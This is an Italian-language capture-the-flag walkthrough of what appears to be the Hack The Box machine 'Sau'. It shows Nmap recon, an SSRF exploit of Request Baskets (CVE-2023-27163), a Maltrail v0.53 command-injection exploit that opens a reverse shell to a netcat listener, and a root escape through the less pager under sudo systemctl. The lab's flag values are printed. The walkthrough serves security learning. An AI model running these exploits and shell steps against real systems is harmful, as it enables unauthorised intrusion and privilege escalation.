


**TARGET:10.10.11.224

# INFORMATION GATHERING

Per prima cosa lanciamo un veloce scan con [Nmap](Note/Tool/Nmap.md)

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nmap -sT -sV -Pn 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-01 23:07 CET
Nmap scan report for 10.10.11.224
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=12/1%Time=656A5918%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2001\x20Dec\
SF:x202023\x2022:07:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2001\x20Dec\
SF:x202023\x2022:07:35\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Fri,\x2001\x20Dec\x202023\x2022:08:01\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.70 seconds
```

Uno scan competo su tutte le porte non ci da nessuna nuova informazione.

Ricapitolando abbiamo 2 porte aperte

- 22 ssh 
- 55555 unknown

la porta 80 e la 8338 risultano filtrate

# ENUMERATION

Visitiamo `10.10.11.224:55555`


Possiamo esplorare un po' lo strumento e capire che si tratta di un tipico contenitore di richieste, in cui crea un nuovo carrello e ti fornisce un token che puoi utilizzare per accedere al carrello in un secondo momento. Possiamo inoltre inviare richieste al nostro carrello e vedere anche i dati che arrivano, ma da esso non può essere generato alcun attacco particolare.
Non esiste nemmeno un pannello di amministrazione a cui possiamo provare ad accedere. Quindi, la prossima cosa che possiamo cercare è una vulnerabilità divulgata pubblicamente in questa applicazione che possiamo sfruttare.

Con una rapida ricerca su Google per “Request Basket exploits”, possiamo trovare [questo PoC per CVE-2023–27163](https://github.com/entr0pie/CVE-2023-27163) che sfrutta una vulnerabilità SSRF in Request Basket.

# GAINING AN INITIAL FOOTHOLD 

L'exploit è piuttosto semplice da eseguire, tutto ciò di cui abbiamo bisogno è l'IP di destinazione e il numero di porta insieme all'indirizzo a cui vogliamo reindirizzare la nostra richiesta internamente sul server attraverso la vulnerabilità SSRF.

```shell-session
┌──(kali㉿kali)-[~/htb/sau/CVE-2023-27163]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "cadgqa" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/cadgqa now makes the server request to http://127.0.0.1:80.
> Authorization: Ye9AiNbyPIQhFo1JFvXSKQpi5lqnG5Vic9V7aYkR9Mq8

```

Ora possiamo andare al carello appena creato


Sembra che qualche altra applicazione chiamata Maltrail sia in esecuzione.
Sappiamo anche che la sua versione v0.53 è in esecuzione sul server.

Possiamo iniziare a cercare eventuali exploit associati che potrebbero aiutarci a ottenere una shell inversa.
Ancora una volta con una rapida ricerca su Google possiamo trovare un [exploit per Maltrail v0.53 Unuthenticated OS Command Inject](https://github.com/spookier/Maltrail-v0.53-Exploit)

Anche in questo caso l'exploit e relativamente semplice 
Il passo successivo è avviare nc

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
```

ed eseguire l'exploit Maltrail contro il carrello creato in precedneza.

```shell-session
┌──(kali㉿kali)-[~/htb/sau/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.48 1234  http://10.10.11.224:55555/cadgqa
Running exploit on http://10.10.11.224:55555/cadgqa/login
```

abbiamo cosi la nostra shell 

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.224] 60466
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

facciamo un update della shell

```shell-session
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -nvlp 1234

┌──(kali㉿kali)-[~/htb/sau]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 1234

puma@sau:/opt/maltrail$ export SHELL=bash
puma@sau:/opt/maltrail$ export TERM=xterm-256color
puma@sau:/opt/maltrail$
```

e ci prendiamo la nostra user_flag

```shell-session
puma@sau:/opt/maltrail$ cat ~/user.txt
7da89e2a309434fcb286cfadac62f664
```

# PRIVESC

Come sempre una delle prime cosa da fare è vedere cosa possiamo eseguire con i privilegi di root

```shell-session
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$
```

Sembra che possiamo controllare lo stato di trail.service. Di solito, l'output di questi comandi viene elaborato tramite less e possiamo prendere riferimento da [GTFOBins]() per `less` e quindi accedere a root.

```shell-session
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2023-12-01 21:16:37 UTC; 1h 20min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 25 (limit: 4662)
     Memory: 49.8M
     CGroup: /system.slice/trail.service
             ├─ 893 /usr/bin/python3 server.py
             ├─1179 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
             ├─1180 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
             ├─1183 sh
             ├─1184 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1185 /bin/sh
             ├─1187 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1188 /bin/bash
             ├─1210 sudo /usr/bin/systemctl status trail.service
             ├─1211 /usr/bin/systemctl status trail.service
             ├─1212 pager
             ├─1213 sh -c /bin/bash -c /bin/bash
             ├─1214 /bin/bash
             ├─1244 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
!/bin/bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
```

e ci prendiamo la nostra root_flag

```shell-session
root@sau:/opt/maltrail# cat ~/root.txt
f2aceb5d6859460186c5403b1bfed871
```
